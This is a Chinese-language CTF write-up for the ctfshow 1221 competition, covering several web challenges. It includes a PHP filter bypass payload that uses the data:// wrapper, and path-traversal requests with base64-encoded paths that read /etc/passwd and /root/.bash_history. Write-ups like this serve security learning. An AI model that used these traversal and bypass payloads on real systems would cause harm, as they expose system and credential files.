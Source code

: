 ```yaml
---
title: "CTFshow1221击剑杯 Wp"
slug: "ctfshow-1221-bailancup-wp"
description: "桥洞底下盖小被，java，狗都不学"
date: 2021-12-28T20:06:48+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://ctf.show/challenges

## web签到

![image-20211224183707592](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224183707592.png)

一眼flask，简单fuzz一下发现过滤了字母 斜杠 引号 注释符 花括号 百分号 点号

没过滤的还有括号和加减乘除

```
A: 114)+(0
B: 1
C: -1
```

## 一行代码

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-11-18 21:25:22
# @Last Modified by:   h1xa
# @Last Modified time: 2021-11-18 22:14:12
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/



echo !(!(include "flag.php")||(!error_reporting(0))||stripos($_GET['filename'],'.')||($_GET['id']!=0)||(strlen($_GET['content'])<=7)||(!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow"))||substr($_GET['content'],0,1)=='w'||(file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"))?$flag:str_repeat(highlight_file(__FILE__), 0);
```

现在都爱这种一行流了？

整体是三目运算符，如果前面的表达式整体为真则返回$flag，而外面又套了`!()`，所以需要括号内部为假，而又都是`||`连接，所以需要每个小括号自己都为假，挨个看看

- `$_GET['id']!=0`

给id赋值为0或者直接留空

- `strlen($_GET['content'])<=7`

content长于7

- `!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow")`

没匹配为假，则匹配为真，content=wwwwwww

- `substr($_GET['content'],0,1)=='w'`

把content改个大写

- `file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"`

用data://伪协议

payload

```
?id=0&content=Wwwwwwww&filename=data://text/plain,welcome2ctfshow
```

## 黑客网站

![image-20211224210814499](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224210814499.png)

源码提示 flag不在这个服务器上，不用扫描，不用渗透

看字符串末尾有onion，拼在一起

```
http://tyros4qws3mmbubgjqje46ncv35jaqjgeb3nqiuf23ijoj4zwasxohyd.onion
```

访问就行了捏~

## ***登陆不了

在验证码的地方有个参数，尝试文件包含

```
http://bf986069-fc4e-42a3-b09b-c966f9e17a3c.challenge.ctf.show/v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d
```

雀食有/etc/passwd，但是看不了/flag，看一下别的东西

```
# /root/.bash_history
/v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vcm9vdC8uYmFzaF9oaXN0b3J5
```

![image-20211224202852805](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224202852805.png)

好吧，竟然是java，先爬了
